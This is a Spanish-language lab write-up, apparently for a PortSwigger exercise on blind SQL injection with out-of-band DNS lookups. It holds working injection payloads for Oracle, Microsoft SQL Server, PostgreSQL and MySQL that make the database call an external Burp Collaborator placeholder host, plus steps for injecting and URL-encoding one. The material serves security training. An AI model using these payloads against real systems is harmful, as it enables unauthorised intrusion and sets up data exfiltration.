


## DNS lookup

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo. Para ello, deberá utilizar [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) para generar un subdominio exclusivo de Burp Collaborator que utilizará en su ataque y, luego, sondear el servidor de Collaborator para confirmar que se realizó una búsqueda de DNS.


|            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | ( [XXE](https://portswigger.net/web-security/xxe) ) vulnerabilidad que activa una búsqueda de DNS. La vulnerabilidad ha sido corregida, pero existen muchas instalaciones de Oracle sin parches:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>La siguiente técnica funciona en instalaciones de Oracle con todos los parches aplicados, pero requiere privilegios elevados:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MySQL      | Las siguientes técnicas funcionan sólo en Windows:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                                                                                                                             |
|            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |


Para este ejercicio debemos de tener en cuenta la anterior tabla. Ademas, tenemos que tener la version pro de `burpsuite` ya que haremos uso de `Burp Collaborator client`.

Haremos uso de la siguiente consulta:

```c
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

La anterior consulta la pondremos en el campo que es vulnerable pero dentro de `' || (<query>)-- -`




Luego tenemos que ponerlo en url encode para que no nos genere ningún error y enviamos la petición


